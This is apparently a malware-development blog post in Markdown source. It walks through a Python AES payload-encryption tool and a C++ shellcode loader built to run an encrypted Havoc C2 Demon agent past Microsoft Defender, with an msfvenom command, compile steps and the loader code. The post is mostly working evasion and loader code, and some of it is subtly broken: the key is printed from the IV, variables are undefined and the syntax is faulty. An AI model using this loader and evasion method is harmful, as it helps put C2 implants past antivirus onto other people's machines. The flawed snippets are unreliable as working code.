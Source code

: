 ```yaml
---
layout: post
title: Creating a payload encryption tool and testing it on the Havoc agent
date: 2023-11-29
categories: [Malware Development, Evasion]
tags: [evasion]     
---
```


Payload encryption is a must against modern security solutions, as popular code such as meterpreter is sure to get caught by signature-based detection or static file analysis. Although encryption won't get us past heuristic analysis or ML behavioral analysis, it's a step forward toward being stealthy. While this is great, the drawback to payload encryption is that it increases file entropy. Entropy is a measure of randomness within a dataset, and files with an entropy that passes a certain threshold have a good chance of being marked as malicious. There are techniques to decrease entropy, which I will discuss in a later post. 

In this post, I will create a tool that implements a popular encryption algorithm for malware development. The tool will output the encrypted payload and the decrypt function of the selected encryption type. It will also generate random keys for the algorithms that need it. Afterward, I will test out an encrypted payload against Defender. 

Let's create an argument parser using the `argparse` library

```python
# Create the argument parser
parser = argparse.ArgumentParser(
                        prog='PayloadEncryptor',
                        description='Encrypts payloads...duh.',
                        epilog='Check out my blog!')

# Adding arguments to the parser
parser.add_argument('-i', dest = 'initialpayload', help = 'the name of the file that contains your payload', type=argparse.FileType('rb'))
parser.add_argument('-o', dest = 'encryptedpayload', help = 'the file where to write the encrypted payload')

# Run the parser and place the extracted data into an args.<argumentname> object
args = parser.parse_args()
# Read the payload from a file and store it in a variable
with args.initialpayload as f:
   payload = f.read()
```

Then I will create a function that takes the payload, encrypts it, and writes the output to the file the user specified. For this, I will be using the `PyCryptodome` library, as it makes my life easier.

```python
def EncryptAES(input, output):
	# Generate a random key and print it
    key = get_random_bytes(16)
    print(key)
	# Define the cipher as AES-EAX
    cipher = AES.new(key, AES.MODE_EAX)
	# Generate a nonce
    nonce = cipher.nonce
	# Encrypt the input
    ciphertext, tag = cipher.encrypt_and_digest(input)
	# Open or create a file with the name we specified, and write the encrypted payload
    file_out = open(f"{output}", "wb")
    [ file_out.write(x) for x in (cipher.nonce, tag, ciphertext) ]
```

Now let's put it to the test! But first, we will need a payload. 

```shell
msfvenom -p windows/x64/messagebox TEXT="Task failed succesfully" TITLE="Error!" -f raw > payload.bin
```

Let's take a look at it 

![Message box payload](/assets/image3.png)

Now if we run our code, it should look different

```python
python3 Encrypt.py -i payload.bin -o encryptedpayload.bin
```

![Encrypted message box payload](/assets/image4.PNG)

Perfect! So we know that it works, but our payload isn't that interesting. Let's use the Havoc C2 framework to create a payload for the Demon agent (don't forget to start a listener first). This command should create a .bin file.

![Generating the demon agent](/assets/image5.png)

We run our encryption script again, and we have our final payload. But now we need a loader. Let's try this going off this [template](https://github.com/TheD1rkMtr/Shellcode-Hide/blob/main/1%20-%20Simple%20Loader/SimpleLoader/SimpleLoader.cpp). After tweaking the code a bit, this is the final product:

```cpp
#include <windows.h>
#include <stdio.h>

int main() {

unsigned char payload[] = { 
    <SNIP>
};
  
	LPVOID alloc_mem = VirtualAlloc(NULL, sizeof(payload), MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

	if (!alloc_mem) {
		printf("Failed to Allocate memory (%u)\n", GetLastError());
		return -1;
	}
	
	RtlMoveMemory(alloc_mem, payload, sizeof(payload));

	DWORD oldProtect;

	if (!VirtualProtect(alloc_mem, sizeof(payload), PAGE_EXECUTE_READ, &oldProtect)) {
		printf("Failed to change memory protection (%u)\n", GetLastError());
		return -2;
	}

  ((void(*)())alloc_mem)();

	printf("\n\nalloc_mem : %p\n", alloc_mem);
	getchar();

	return 0;
}
```

We will also need to decrypt our payload. For this I will use the [tiny-aes-c](https://github.com/kokke/tiny-AES-c) library.

```cpp
    #include <aes.c>

    <SNIP>

    AES_ctx ctx = {0};
	AES_init_ctx_iv(&ctx, key, iv);
	AES_CBC_decrypt_buffer(&ctx, cow, sizeof(cow));
```

Here is when I ran into a problem. The python script I created encrpted the payload using AES-EAX, and tiny-aes-c uses AES_CBC. Let's adapt our script

```python
def EncryptAES(input, output):
    # Generate a key
    key = get_random_bytes(16)
    # Defining a cipher
    cipher = AES.new(key, AES.MODE_CBC)
    # Encrypting the payload, also adding some padding in case it's size is not a multiple of 16 bytes
    ct_bytes = cipher.encrypt(pad(input, AES.block_size))
    # Print the IV
    print("unsigned char iv[] = {")
    for byte in cipher.iv:
        print(f"0x{byte:02x},", end = "")
    print("};")
    # Print the Key
    print("unsigned char key[] = {")
    for byte in cipher.iv:
        print(f"0x{byte:02x},", end = "")
    print("};")
    # Write into the specified file
    file_out = open(f"{output}", "wb")
    [ file_out.write(ct_bytes) ]
```

And after using THIS script to encrypt our payload, this is the final product

```cpp
unsigned char key[] = {
  0x7b, 0x61, 0x4f, 0xef, 0xbf, 0xbd, 0x78, 0x42, 0xef, 0xbf, 0xbd, 0x5b,
  0x31, 0x6d, 0x25, 0x0a
};

unsigned char iv[] = {
  0xef, 0xbf, 0xbd, 0x45, 0xc9, 0xbd, 0x34, 0xef, 0xbf, 0xbd, 0x54, 0x6a,
  0xef, 0xbf, 0xbd, 0x55, 0xef, 0xbf, 0xbd, 0x5b, 0x31, 0x6d, 0x0a
};

int main() {

unsigned char payload[] = {
  <SNIP>
};

  	LPVOID alloc_mem = VirtualAlloc(NULL, sizeof(payload)), MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

	if (!alloc_mem) {
		printf("Failed to Allocate memory (%u)\n", GetLastError());
		return -1;
	}
	
    AES_ctx ctx = {0};
	AES_init_ctx_iv(&ctx, cheese, chocolate);
	AES_CBC_decrypt_buffer(&ctx, payload, sizeof(payload));

	RtlMoveMemory(alloc_mem, payload, sizeof(payload));

	DWORD oldProtect;

	if (!VirtualProtect(alloc_mem, sizeof(payload), PAGE_EXECUTE_READ, &oldProtect)) {
		printf("Failed to change memory protection (%u)\n", GetLastError());
		return -2;
	}

  ((void(*)())alloc_mem)();

	printf("\n\nalloc_mem : %p\n", alloc_mem);
	getchar();

	return 0;
}
```

Now that we have our code, let's compile it!

```shell
x86_64-w64-mingw32-cc -I /Path/to/tiny-AES-c-1.0.0 -o Demon.exe Loader.cpp
```

After transferring it to the Windows machine, I ran it and...the agent crashed. Great. After debugging it a bit, I have come to the conclusion that I also need to use tiny-aes-c for encryption. 

```cpp
unsigned char payload[] {
<SNIP>
};

unsigned char key[] {
};

unsigned char iv[] {
};

AES_ctx ctx = {0};
AES_ctx_init_iv(&ctx, key, iv);
AES_CBC_encrypt_buffer(&ctx, payload, sizeof(payload));

for(int i=0,i<sizeof(payload),i++) {
  print("0x%x, ", payload[i]);
}
```

Piping the output of this into a file, and then copying it to our loader. It should work. Compiling it again and running it on our Windows host...

![Defender got pwned](/assets/image7.png)
